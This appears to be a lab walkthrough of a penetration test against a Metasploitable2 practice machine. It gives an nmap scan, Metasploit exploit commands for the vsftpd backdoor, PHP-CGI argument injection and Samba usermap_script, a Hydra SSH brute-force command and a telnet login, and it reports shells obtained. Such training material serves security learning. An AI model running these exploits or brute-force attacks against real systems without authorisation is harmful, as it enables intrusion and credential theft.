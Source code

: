 # External Penetration Test Methodology

## Start With an Nmap Scan

### Exploit Vulnerabilities Found in the Scan

We know the IP address of this machine is `10.21.21.11`.

Now we are going to scan this IP address with the Nmap tool. To perform a comprehensive scan:

```bash
nmap -T4 -p- -A 10.21.21.11
```

**Explanation:**
- `-T4`: Sets the speed to a moderate-fast level.
- `-p-`: Ensures all ports are scanned.
- `-A`: Provides detailed information about the target, including OS, services, and versions.

We can see that there are a lot of open ports, so we are going to exploit them.

### 1. Port 21 (FTP) - Exploiting FTP through Metasploit Framework

As we know, the FTP version is `vsftpd`.

1. Open `msfconsole` and search for `vsftpd Backdoor exploit`.
2. Follow the steps given below to exploit through Metasploit Framework:

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST <target IP address>
exploit
```

![vsftpd exploit](https://github.com/user-attachments/assets/5dd9d633-4a26-4785-8cbf-d708cc91d02e)

We got the shell.

### 2. Port 22 (SSH) - Brute Force with Hydra Tool

We can brute force the service and get the credentials by cracking the username and password.

```bash
hydra -L /path/to/username/list -P /path/to/password/list 10.21.21.11 ssh
```

![Hydra SSH brute force](https://github.com/user-attachments/assets/00ef07ce-4ae9-448b-8108-94f173365ff4)

### 3. Port 23 (Telnet) - Use Telnet Tool

Telnet grabbed the metasploitable2 system’s banner. We have a username and password, so use it to log in to the system:

```bash
telnet <target IP address>
```

![Telnet login](https://github.com/user-attachments/assets/b254d362-97e5-4a5a-9cea-f52a46f916e8)

### 4. Port 80 (PHP_CGI)

Through Nmap, we understood that this port provides an HTTP service. When we run `ip:80` as a URL in the browser and use Wappalyzer, we can see the technologies used. One of the technologies used is PHP 5.2.4, and from researching, we find that this version has an argument injection vulnerability.

**Reference:** [Rapid7 PHP CGI Argument Injection](https://www.rapid7.com/db/modules/exploit/multi/http/php_cgi_arg_injection/)

![PHP CGI vulnerability](https://github.com/user-attachments/assets/cb0cdfa3-c00c-4130-afa6-6bdacfaa5406)

![Wappalyzer PHP](https://github.com/user-attachments/assets/846b6a46-02c2-45d4-9d25-64bd5bbee921)

```bash
msfconsole
use exploit/multi/http/php_cgi_arg_injection
options
set RHOSTS <target IP>
exploit
```

![PHP CGI exploit](https://github.com/user-attachments/assets/7cec01c5-03a9-4f20-a46a-433fbd0fc83c)

### 5. Port 139 & 443 (Samba)

We will exploit this with the Metasploit Framework.

```bash
search usermap_script
use exploit/multi/samba/usermap_script
set RHOST <target IP>
exploit
```

![Samba exploit](https://github.com/user-attachments/assets/d5afa31e-f3e1-4a9a-9aff-ea7b7494819b)

